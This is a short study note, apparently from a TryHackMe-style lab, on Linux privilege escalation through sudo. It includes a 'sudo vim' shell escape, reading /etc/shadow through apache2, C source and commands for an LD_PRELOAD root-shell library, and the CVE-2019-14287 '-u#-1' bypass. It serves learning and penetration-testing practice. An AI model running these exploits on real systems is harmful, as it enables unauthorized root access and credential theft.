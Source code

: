 Sudo

## sudo -l
	* list what can be run without a root password
	* https://gtfobins.github.io/
	* ex. sudo can be run as root without password, sudo vim -c ':!/bin/sh' gives root shell
* https://tryhackme.com/room/linuxprivesc
## Intended functionality 
* using the intended functionality of a program to get a further level of access
* Apachae 2 won't give you a reverse shell but you can view system file 
	* sudo apache2 -f /etc/shadow  
## LD_Preload 
* preload a library before loading any other librarys 
* make a malicious library then preload it 
```
#include <studio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
```
* To compile: ```gcc -fPIC -shared -o shell.so shell.c -nostartfiles```
* Gives us Root: ```sudo LD_PRELOAD=/home/user/shell.so apache2``` apache2 or any other binary that you can run as root but as standard user 
* if you run sudo -l and see 'LD_PRELOAD' then look into getting a priv es
## CVE-2019-14287
* running sudo -u#-1 binary will give you root (0) privegles 
	* sudo code will interpret the -u#-1 as a 0 even though you can't run root stuff normally, can give you a root shell
	* only works on binarys that you have access to as the running user (sudo -l for list)